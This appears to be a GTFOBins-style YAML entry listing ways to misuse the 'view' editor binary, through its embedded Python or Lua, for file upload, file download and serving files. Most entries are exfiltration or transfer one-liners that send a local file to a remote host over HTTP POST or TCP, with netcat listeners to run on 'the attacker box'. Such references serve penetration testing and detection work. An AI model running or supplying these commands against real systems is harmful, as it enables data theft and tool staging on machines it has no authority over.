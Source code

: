 ```yaml
---
functions:
  file-upload:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$RPATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        view -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
          t:send(d);
          t:close();'
  server:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
  file-download:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$RPATH"], e["$NFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        view -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("$LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("$NFILE"), "wb");
          f:write(d);
          io.close(f);'
---
```

